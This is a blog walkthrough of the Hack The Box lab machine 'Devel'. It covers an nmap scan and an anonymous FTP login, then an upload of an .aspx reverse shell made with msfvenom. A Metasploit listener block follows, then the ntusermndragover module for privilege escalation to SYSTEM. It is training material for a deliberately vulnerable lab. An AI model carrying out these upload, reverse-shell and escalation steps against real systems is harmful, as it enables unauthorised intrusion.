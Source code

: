 ```yaml
---
title: "Hackthebox Devel Walkthrough"
description: "Hackthebox Devel Walkthrough"
date: 2025-06-13
categories: [Walkthrough]
tags: [hackthebox,Devel,Walkthrough,windows]
image :
    path : https://api.pcloud.com/getpubthumb?code=XZeArj5Zp7k40papmHVs7B5nYhm9A06cK2vy&linkpassword=&size=598x381&crop=0&type=auto
---
```


Devel, while relatively simple, demonstrates the security risks associated with some default program configurations. It is a beginner-level machine which can be completed using publicly available exploits.

![Image1](https://api.pcloud.com/getpubthumb?code=XZoXcj5ZjraVyBSeYILfBGeUrYrBcY9OSeQX&linkpassword=&size=1563x174&crop=0&type=auto)

- Let's Spawn the machine

![Image2](https://api.pcloud.com/getpubthumb?code=XZVVcj5Zfm5CEUUmSLhSuUqo1oXyFBT1mXVV&linkpassword=&size=1553x203&crop=0&type=auto)

## <span style="color: DarkSalmon;"><b># Enumeration</b></span> 
---------

- Let's Start with the Nmap scan 

```bash
┌──(kali㉿kali)-[~/Desktop/HTB]
└─$ nmap -sC -sV -p- 10.10.10.5 --min-rate=1500      
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-08 06:30 EDT
Nmap scan report for 10.10.10.5
Host is up (0.24s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.28 seconds
```

- there nothign much to explore its very straight forward machine ...

`Port 21` : Ftp Service <br>
`Port 80` : Microsoft_IIS server 

- we are able to connect to the ftp server using the anonymous login
`anonymous:anonymous`

![Image3](https://api.pcloud.com/getpubthumb?code=XZ5Vcj5ZFLMgCh6km8H8u2rm1mxmr7iLt2aV&linkpassword=&size=737x265&crop=0&type=auto)

- listing file the files revels that this is the directory for the IIS webserver , means the file we upload through the ftp server can be accessed through IIS server directory through root directory . 

- let's generate `.aspx` reverse shell file  using msfvenom 

![Image4](https://api.pcloud.com/getpubthumb?code=XZHVcj5ZzW3PBnFSIwLYb21nkC59FzaaCRh7&linkpassword=&size=943x142&crop=0&type=auto)

- we can upload this using `put` command through ftp server .

![Image5](https://api.pcloud.com/getpubthumb?code=XZLVcj5ZjwnYGnvOQzX61e4tCCha6f22yeK7&linkpassword=&size=1891x135&crop=0&type=auto)

## <span style="color: DarkSalmon;"><b># Exploitation</b></span> 
--------

- we can set the listner on the metasploit if we want using 

```bash
use /multi/handler
set payload <payload>
set lost <attacker-IP>
set lport <listner port>
run
```

- and we can access our file , which we have upload on the server ... 

![Image6](https://api.pcloud.com/getpubthumb?code=XZ4Vcj5ZJ6moRWoAHbycoc0qEF28uJQXrDW7&linkpassword=&size=558x124&crop=0&type=auto)

- as soon as we visit that file reverse shell will be triggered on our metasploit listner , and we got shell as `IIS APPPOOL\Web` similar to `www-data` on linux... 

![Image7](https://api.pcloud.com/getpubthumb?code=XZQVcj5Za4LaokSFJnJTaFe3MrYWEbtiQyYy&linkpassword=&size=990x136&crop=0&type=auto)

- now we can background the process `( CTRL+Z )` and use the metasploit's `/multi/recon/local_exploit_suggestor` module by setting the session id where we have the meterpreter connection. 

![Image8](https://api.pcloud.com/getpubthumb?code=XZmVcj5Z5582C5rNqsVlyTB4SV6m9HekOHNX&linkpassword=&size=1121x612&crop=0&type=auto)


- as we run this module we will get the probable way to escaalte the privileges .. 

![Image9](https://api.pcloud.com/getpubthumb?code=XZjVcj5ZLzRJTwNB9lYxIsOVJkv6GXJ7S2O7&linkpassword=&size=1174x609&crop=0&type=auto)

- here we will use the `exploit/windows/local/ntusermndragover` module for privilege escalation by setting the session id and run it ... after a little while , we will get the shell as `NT AUTHORITY\SYSTEM`

![Image10](https://api.pcloud.com/getpubthumb?code=XZ2Vcj5ZJkaYHybD5OBItQUugp4Xf8ErMBtk&linkpassword=&size=961x309&crop=0&type=auto)

- now we can grab the `user.txt` file 

![Image11](https://api.pcloud.com/getpubthumb?code=XZDVcj5ZEF86TVA4TF7NTg3IaRcxyuaJuOM7&linkpassword=&size=539x246&crop=0&type=auto)

- similarly we can get the root hash 

```bash
 Directory of C:\Users\Administrator\Desktop

14/01/2021  12:42 ��    <DIR>          .
14/01/2021  12:42 ��    <DIR>          ..
08/06/2025  01:28 ��                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   5.027.282.944 bytes free

C:\Users\Administrator\Desktop>type root.txt
```
> we can also go the manual way if we want ... 


<br>
## <span style="color: DarkSalmon;"><b># Final Thoughts</b></span>
--------
I hope this blog continues to be helpful in your learning journey!. If you find this blog helpful, I’d love to hear your thoughts — my inbox is always open for feedback. Please excuse any typos, and feel free to point them out so I can correct them. Thanks for understanding and happy learning!. You can contact me on Linkedin and Twitter <br>
[linkdin](https://www.linkedin.com/in/hitesh-sharma-413862245/) <br>
[Twitter](https://x.com/Archtrmntor) <br>









